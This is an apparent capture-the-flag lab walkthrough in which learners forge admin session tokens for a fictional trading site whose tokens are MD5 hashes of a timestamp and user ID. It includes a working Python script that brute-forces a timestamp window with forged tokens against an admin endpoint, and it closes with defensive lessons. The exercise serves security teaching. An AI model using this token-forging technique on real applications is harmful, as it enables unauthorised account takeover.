


Exercise CF2.2: Session Hijacking
Before You Begin
You should have completed Exercise CF2.1 (Login Bruteforce), which demonstrated how weak authentication controls allow credential discovery. Exercise CF2.2 shifts from attacking the login itself to attacking what happens after login: session management. Your VPN must be connected and your terminal open before continuing.
Scenario
CapitalFlow Markets operates a real-time trading interface where authenticated users can view market data, place trades, and manage their portfolios. The development team built a custom session management system rather than using a standard library. Sarah Chen (CTO) has heard that "rolling your own crypto is dangerous" and wants you to test whether the session tokens are predictable.
Your intelligence suggests the trading platform generates session tokens using MD5 hashes of a timestamp combined with the user ID. If the pattern can be confirmed, you should be able to forge a valid session token for any user, including the administrator.
Target: capitalflow-trading.lab (port 80)
Credentials:
- Trader account: trader@capitalflow.com / Trader2024#
- Analyst account: analyst@capitalflow.com / Analyst2024#

Your Objectives
- Add the target hostname to
/etc/hosts - Authenticate as the trader user and capture the session token
- Analyze the token generation pattern from response headers
- Write a Python script to generate MD5-based session tokens
- Forge a valid admin session token (user_id 1337)
- Access the admin panel with the forged token
- Find and submit the flag in
OCR{...}format
Background: Session Management and Token Prediction
How Web Sessions Work
HTTP (Hypertext Transfer Protocol) is stateless: each request is independent, with no built-in mechanism to remember who sent the previous request. Web applications solve this problem using session tokens. After a user authenticates, the server generates a unique token, stores it in a cookie or header, and the browser sends that token with every subsequent request. The server matches the token to the user's session data and grants the appropriate access level.
Predictable Token Generation
Secure session tokens must be random enough that an attacker cannot guess or calculate a valid token. Cryptographically secure random number generators (CSPRNGs) produce tokens with sufficient entropy. Insecure implementations use predictable inputs such as timestamps, sequential counters, or user IDs, often combined with weak hash functions like MD5. When an attacker understands the generation algorithm and can determine or guess the inputs, forging a valid token becomes trivial.
MD5 and Why It Fails for Security
MD5 (Message-Digest Algorithm 5) produces a 128-bit hash that is fast to compute and deterministic: the same input always produces the same output. MD5 was not designed for security-critical applications, and its speed makes it unsuitable for session tokens because an attacker can compute millions of candidate hashes per second. When the input to MD5 is also predictable (e.g., a Unix timestamp concatenated with a user ID), the token offers no real protection.
graph TD
A["User logs in"] --> B["Server generates token<br/>MD5(timestamp_userid)"]
B --> C["Token sent in<br/>response header"]
C --> D["Attacker captures<br/>token + metadata"]
D --> E["Attacker deduces<br/>generation pattern"]
E --> F["Attacker generates<br/>MD5(timestamp_1337)"]
F --> G["Forged admin token<br/>grants admin access"]
style A fill:#4a90d9,color:#fff
style D fill:#e8a735,color:#fff
style F fill:#d9534f,color:#fff
style G fill:#d9534f,color:#fffThe diagram shows the attack flow: a legitimate login reveals the token pattern, and the attacker uses the same algorithm to forge an admin token.
Tool Primer: Python hashlib for MD5
Python's hashlib module provides hash functions including MD5. Penetration testers use it to reproduce token generation algorithms and forge valid values.
import hashlib
# Generate MD5 hash of a string
input_string = "1712345678_42"
token = hashlib.md5(input_string.encode()).hexdigest()
print(token)
The encode() method converts the string to bytes (required by hashlib), and hexdigest() returns the 32-character hexadecimal representation of the hash.
Running a one-liner from the terminal:
Walkthrough
Step 1: Launch the Exercise
Open the platform in your browser and start the exercise environment.
- Navigate to Exercises and locate the CapitalFlow Markets track
- Find Session Hijacking and click Launch
- Wait for the status to change to Running
- Note the target IP displayed in the Active Lab View
Step 2: Add the Target to /etc/hosts
The trading platform uses hostname-based routing. Add the hostname to your local hosts file so your system can resolve it.
Kali - Add capitalflow-trading.lab to /etc/hosts
Replace <target_ip> with the IP address shown in the Active Lab View. Verify the entry was added:
You should see the line you just added. The hostname capitalflow-trading.lab now resolves to the target IP.
Step 3: Authenticate as the Trader User
Log in with the trader credentials and capture the full response headers. The session token and generation metadata are embedded in the headers.
Kali - Log in as the trader and capture response headers
Examine the response headers carefully. Look for custom headers that reveal session management details:
- X-Session-Token: The session token assigned to your login
- X-User-ID: Your user ID in the system
- X-Token-Generated: The timestamp used during token generation
Record all three values. These headers expose the exact inputs the server used to generate your session token, which is the information needed to reverse-engineer the algorithm.
Step 4: Verify Your Session Works
The application accepts the session token as the X-Session-Token HTTP request header. Use the captured token to query the session info endpoint and confirm it grants access as the trader user.
Kali - Access session info with the captured token
Replace <your-token> with the X-Session-Token value from Step 3. The response returns JSON with your session details, confirming the token is valid. Read the algorithm field carefully: the server leaks MD5(timestamp_userid), the exact recipe used to build every token. Note the user_id and timestamp fields as well, since those are the two inputs the algorithm consumes.

Step 5: Analyze the Token Generation Pattern
Compare the token you received with the metadata from the response headers. The server likely generates tokens using the formula: MD5(timestamp_userid).
Kali - Reproduce your token using the captured values
Replace <timestamp> with the X-Token-Generated value and <userid> with the X-User-ID value. If the output matches the X-Session-Token value exactly, you have confirmed the token generation algorithm. The server computes MD5(timestamp_userid) and uses the hexadecimal digest as the session token.
Step 6: Log in as the Analyst to Confirm the Pattern
Verify the pattern holds for a second account by logging in as the analyst user.
Kali - Log in as the analyst and capture headers
Capture the analyst's X-Session-Token, X-User-ID, and X-Token-Generated values. Reproduce the token with the same formula:
Kali - Reproduce the analyst token
If the output matches the analyst's session token, the pattern is confirmed across multiple accounts. The algorithm is deterministic and uses only two predictable inputs.
Step 7: Forge an Admin Session Token
The admin user has user_id 1337. A valid admin token is MD5(timestamp_1337), where timestamp is the Unix second at which the admin session was created. You do not know that exact second, but you do know it falls within a small window around the times you observed during your own logins. Because MD5 is fast, you can simply try every second in a candidate window and ask the server which forged token it accepts.
First record a reference timestamp. The X-Token-Generated header from your trader login (Step 3) gives you a value close to the server clock. A single forged token for one specific second looks like this:
Kali - Generate a forged admin token for one timestamp
Replace <timestamp> with a candidate Unix second. The output is one forged admin token. In the next step you automate this across a window so you do not have to guess the exact second.
Step 8: Brute-Force the Window and Access the Admin Panel
The application honors a session token sent in the X-Session-Token request header. Walk a window of candidate timestamps, compute MD5(ts_1337) for each, send it as X-Session-Token to /admin, and stop when the server returns HTTP 200 with the flag. The admin panel returns 403 for any token that does not resolve to the admin session, so a 200 means your forged token matched.
Save the following script as forge_admin.py. It scans a window centered on a reference timestamp (default 600 seconds before to 600 seconds after) and prints the flag as soon as a forged token is accepted.
Kali - Brute-force the admin token window with Python
#!/usr/bin/env python3
import hashlib
import sys
import time
import urllib.request
TARGET = "http://capitalflow-trading.lab/admin"
ADMIN_ID = "1337"
# Reference timestamp: pass your X-Token-Generated value as argv[1],
# otherwise the current time is used.
ref = int(sys.argv[1]) if len(sys.argv) > 1 else int(time.time())
for ts in range(ref - 600, ref + 600):
token = hashlib.md5(f"{ts}_{ADMIN_ID}".encode()).hexdigest()
req = urllib.request.Request(TARGET, headers={"X-Session-Token": token})
try:
with urllib.request.urlopen(req) as resp:
body = resp.read().decode(errors="replace")
except urllib.error.HTTPError:
continue
if "OCR{" in body:
print(f"[+] Accepted token: {token} (timestamp {ts})")
for line in body.splitlines():
if "OCR{" in line:
print("[+] Flag:", line.strip())
break
else:
print("[-] No token accepted in window; widen the range and retry.")
Run the script, passing the X-Token-Generated timestamp you captured in Step 3 as the reference point:
When a forged token is accepted, the server returns the admin panel and the script prints the flag. You now hold admin access without ever knowing the admin password.
If you prefer a quick check for a single known-good second, request the panel directly with the forged token in the header:
Kali - Access the admin panel with one forged token
Record Your Findings
Document the session analysis and token forgery results below.
Trader session metadata:
Header Value X-Session-Token X-User-ID X-Token-Generated Token reproduction test:
Input MD5 Output Matches? <timestamp>_<userid>Forged admin token:
Input MD5 Output <timestamp>_1337Admin panel content:
Flag:
Analysis Questions
1. The server exposed the token generation timestamp in a custom response header. Why is leaking token metadata dangerous, even if the token itself appears to be a random hash?
Reveal Answer
Leaking the token generation timestamp eliminates the only potentially unpredictable input to the hash function. Without the timestamp, an attacker would need to guess or brute-force the time value, which adds some difficulty (though MD5 is fast enough to make brute-force feasible within a narrow time window). With the timestamp exposed, the attacker has both inputs (timestamp and user_id) and can compute the exact token. Custom response headers should never reveal internal state used in security-critical computations.
2. Why is MD5 unsuitable for session token generation, and what should the server use instead?
Reveal Answer
MD5 is deterministic, fast, and operates on predictable inputs in this implementation. An attacker who knows the algorithm can compute tokens instantly. Secure session tokens should be generated using a CSPRNG (Cryptographically Secure Pseudo-Random Number Generator) such as Python's secrets.token_hex(32) or Node.js's crypto.randomBytes(32). These functions produce output with sufficient entropy that predicting the next token is computationally infeasible, regardless of how many previous tokens the attacker has observed.
3. Even if the token generation algorithm were secret, how could an attacker still attempt to forge tokens? What defense-in-depth measures should the server implement?
Reveal Answer
An attacker could observe multiple tokens and attempt to reverse-engineer the algorithm through pattern analysis. If the token is short or the input space is small, brute-force computation of all possible tokens becomes feasible. Defense-in-depth measures include: binding tokens to the client IP address or User-Agent header, setting short token expiration times, invalidating tokens on the server side after logout, implementing token rotation on each request, and monitoring for token reuse from different IP addresses. Server-side session stores that validate tokens against a database provide stronger guarantees than stateless token schemes.
Key Takeaways
- Custom session management is a common source of vulnerabilities; standard libraries like
express-sessionor Django's session framework use CSPRNGs and have been hardened against token prediction attacks - MD5 with predictable inputs produces tokens that an attacker can reproduce by applying the same algorithm with known or guessable values
- Response headers that expose internal metadata (timestamps, user IDs, generation parameters) give attackers the information needed to reverse-engineer security mechanisms
- Token forgery allows an attacker to impersonate any user, including administrators, without ever discovering their password
- Defense in depth for session management includes CSPRNG-generated tokens, short expiration times, IP binding, and server-side token validation